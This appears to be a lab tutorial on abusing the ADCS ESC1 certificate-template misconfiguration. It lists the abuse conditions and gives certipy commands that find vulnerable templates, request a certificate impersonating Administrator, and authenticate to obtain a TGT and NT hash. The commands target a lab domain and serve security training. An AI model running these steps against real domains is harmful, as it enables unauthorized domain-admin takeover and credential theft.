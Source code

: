 ## Understanding ESC1

The primary misconfiguration behind this domain escalation scenario lies in the possibility of specifying an alternate user in the certificate request. This means that if a certificate template allows including a subjectAltName ( `SAN` ) different from the user making the certificate request (CSR), it would allow us to request a certificate as any user in the domain.

## ESC1 Abuse Requirements

To abuse ESC1 the following conditions must be met:
1. The Enterprise CA grants enrollment rights to low-privileged users.
2. Manager approval should be turned off (social engineering tactics can bypass these security measures).
3. No authorized signatures are required.
4. The security descriptor of the certificate template must be excessively permissive, allowing low-privileged users to enroll for certificates.
5. The certificate template defines EKUs that enable authentication.
6. The certificate template allows requesters to specify a subjectAltName (SAN) in the CSR .
### Finding Vulnerabilities in ADCS
```
certipy find -u '[email protected]' -p 'Password123!' -dc-ip 10.129.205.199 -vulnerable -stdout
```

To confirm the target is vuln information, we can also identify the conditions that make this template vulnerable to ESC1 :
- Enrollment Rights: LAB.LOCAL\Domain Users .
- Requires Manager Approval: False .
- Authorized Signature Required: 0 .
- Client Authentication: True or Extended Key Usage Client Authentication .
- Enrollee Supplies Subject: True .

### ESC1 Abuse from Linux

To abuse the ESC1 vulnerable template, we must use certipy to request a Certificate and include the alternate subject. We can do this using the option req to request a certificate
and the option -upn Administrator to specify we want to include an alternative subject (in this case, the Administrator):
```
certipy req -u '[email protected]' -p 'Password123!' -dc-ip 10.129.205.199 -ca lab-LAB-DC-CA -template ESC1 -upn Administrator
```

The above commands create a certificate file named `administrator.pfx` , we can use that certificate to authenticate as the Administrator :

```
certipy auth -pfx administrator.pfx -username administrator -domain lab.local -dc-ip 10.129.205.199
```

To authenticate, we can use the TGT saved in administrator.ccache . Additionally, certipy also retrieves the NT hash of the account Administrator using the information in the certificate request.

> [!NOTE]
 If we get an error: The NETBIOS connection with the remote host timed out ,  just try again.
